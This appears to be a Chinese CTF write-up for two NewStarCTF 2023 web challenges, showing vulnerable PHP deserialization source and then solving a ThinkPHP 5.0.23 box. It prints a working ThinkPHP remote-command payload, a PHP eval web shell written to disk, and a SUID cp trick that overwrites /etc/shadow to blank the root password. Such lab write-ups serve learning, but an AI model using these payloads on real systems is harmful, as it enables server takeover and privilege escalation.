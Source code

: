 ```yaml
---
title: NewStarCTF2023 week5 web前两题
date: 2023-10-30 16:48 +0800
categories: [CTF,WEB]
tags: [web]
media_subpath: /assets/images/
---
```




## Unserialize Again

源题目内容

```php
<?php
highlight_file(__FILE__);
error_reporting(0);  
class story{
    private $user='admin';
    public $pass;
    public $eating;
    public $God='false';
    public function __wakeup(){
        $this->user='human';
        if(1==1){
            die();
        }
        if(1!=1){
            echo $fffflag;
        }
    }
    public function __construct(){
        $this->user='AshenOne';
        $this->eating='fire';
        die();
    }
    public function __tostring(){
        return $this->user.$this->pass;
    }
    public function __invoke(){
        if($this->user=='admin'&&$this->pass=='admin'){
            echo $nothing;
        }
    }
    public function __destruct(){
        if($this->God=='true'&&$this->user=='admin'){
            system($this->eating);
        }
        else{
            die('Get Out!');
        }
    }
}                 
if(isset($_GET['pear'])&&isset($_GET['apple'])){
    // $Eden=new story();
    $pear=$_GET['pear'];
    $Adam=$_GET['apple'];
    $file=file_get_contents('php://input');
    file_put_contents($pear,urldecode($file));
    file_exists($Adam);
}
else{
    echo '多吃雪梨';
} 
```

题目这里的考点应该 phar 反序列化，但是可能出题人出的不够严谨，这里出现了非预期

非预期可以直接命令执行，获取flag

![Unserialize Again_非预期exp](week5.assets/Unserialize Again_非预期exp.jpg)

![Unserialize Again_非预期结果](week5.assets/Unserialize Again_非预期结果.jpg)



## Final

一个thinkphp 5.0.23，存在命令执行漏洞。

过滤了 system（phpinfo 可以正常执行），之后是低权

```
_method=__construct&filter[]=phpinfo&method=get&server[REQUEST_METHOD]=1
```



![image-20231030131251182](week5.assets/image-20231030131251182.png)

payload：

```
GET
/index.php?s=captcha
POST
_method=__construct&filter[]=passthru&method=get&server[REQUEST_METHOD]=id
```

写马 进行提权，后面使用哥斯拉 超级终端。

```
echo '<?php @eval($_POST[12]); ?>' > 1.php
```

查看suid 存在cp，我们可以直接cp shadow 查看 root 密码，这里的root 没有显示密码，我们直接修改shadow 

![image-20231030162316084](week5.assets/image-20231030162316084.png)

![image-20231030164151705](week5.assets/image-20231030164151705.png)



cp suid payload

```
LFILE=file_to_write
echo "DATA" | ./cp /dev/stdin "$LFILE"
```

直接copy 到命令行

```
# root:*:17847:0:99999:7:::

LFILE=/etc/shadow
echo "root::17847:0:99999:7:::" | /bin/cp /dev/stdin "$LFILE"

su root
cat /flag*
```

![image-20231030164051944](week5.assets/image-20231030164051944.png)
